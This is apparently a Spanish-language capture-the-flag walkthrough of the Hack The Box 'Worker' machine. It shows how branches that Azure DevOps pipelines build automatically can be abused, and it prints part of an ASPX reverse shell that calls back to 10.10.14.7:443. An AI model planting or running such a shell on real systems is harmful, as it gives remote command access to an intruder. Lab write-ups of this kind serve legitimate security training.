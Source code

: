 Creamos una rama al proyecto y le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)








## Vulnerability Assessment {-}


Si navigamos en la web podemos ver multiples repositorios.

![Azure DevOps repositories](images/Worker-grupos-agentes.png){ style="width:90%"}
    knitr::include_graphics("images/Worker-repos.png")
los repositorios corresponden a proyectos relacionados con subdominios. Si añadimos el subdominio 
```bash
 alpha.worker.htb 
```
 en el 
```bash
 /ect/hosts 
```
 y que miramos con
![Worker-reos](/assets/images/Worker-repos.png) 
el firefox a esta url vemos el proyecto. 

Si analysamos mas el proyecto, vemos que no podemos alterar el proyecto en la rama Master, y vemos que hay Pipelines que se lanzan automaticamente. Analysando 
el script de la Pipeline, vemos que no esta atada a la rama master.

Creamos una rama al proyecto y le vamos a poner un codigo malicioso.

## Vuln exploit & Gaining Access {-}

### Ganando accesso con Azure DevOps {-}

Una vez la nueva rama creada, le ponemos nuestro codigo malicioso copiada del github de [borjmz aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

```asp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Runtime.InteropServices" %>
<%@ Import Namespace="System.Net" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.Security.Principal" %>
<%@ Import Namespace="System.Data.SqlClient" %>
<script runat="server">
//Original shell post: https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/
//Download link: https://www.darknet.org.uk/content/files/InsomniaShell.zip
    
	protected void Page_Load(object sender, EventArgs e)
    {
	    String host = "10.10.14.7"; //CHANGE THIS
            int port = 443; ////CHANGE THIS
                
        CallbackShell(host, port);
    }

    [StructLayout(LayoutKind.Sequential)]
    public struct STARTUPINFO
    {
        public int cb;
        public String lpReserved;
        public String lpDesktop;
```